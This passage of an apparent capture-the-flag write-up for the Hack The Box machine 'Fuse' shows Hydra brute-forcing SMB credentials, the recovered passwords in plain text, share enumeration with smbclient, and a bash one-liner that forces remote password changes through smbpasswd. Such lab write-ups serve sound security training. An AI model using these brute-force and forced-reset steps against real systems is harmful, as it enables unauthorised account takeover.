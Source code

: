 [445][smb] Host: 10.10.10.193 Account: bhult Valid password, password expired and must be changed on next logon
[445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
[STATUS] 111.14 tries/min, 778 tries in 00:07h, 67 to do in 00:01h, 1 active
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-27 17:54:40
{%endhighlight%}

Ayyy! We have a 2 valid login creds. But when I try logging in with tlavel user and the found password I face an error unseen before.

{%highlight text%}
smbclient -L fuse.htb -U tlavel -c share
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tlavel's password: 
session setup failed: NT_STATUS_PASSWORD_MUST_CHANGE
{%endhighlight%}

After some googling I find that when this error appears it means that we will need to change the password for SMB before continuing. I find that we can use the tool smbpasswd to change passwords of SMB remotely.

{%highlight text%}
smbpasswd -r fuse.htb -U tlavel
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user tlavel
{%endhighlight%}

After entering new credentials I try logging in SMB. This time we are successful.

{%highlight text%}
smbclient -L fuse.htb -U tlavel 
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\tlavel's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	HP-MFT01        Printer   HP-MFT01
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	print$          Disk      Printer Drivers
	SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
Connection to fuse.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Failed to connect with SMB1 -- no workgroup available
{%endhighlight%}

I try reading some shares but soon found that the machine was resetting the password frequently. To overcome this I wrote a simple quick and dirty script.

{%highlight text%}
#!/bin/bash
printf 'Fabricorp01\nFabricorp09\nFabricorp09\n' | smbpasswd -r fuse.htb -U tlavel
{%endhighlight%}
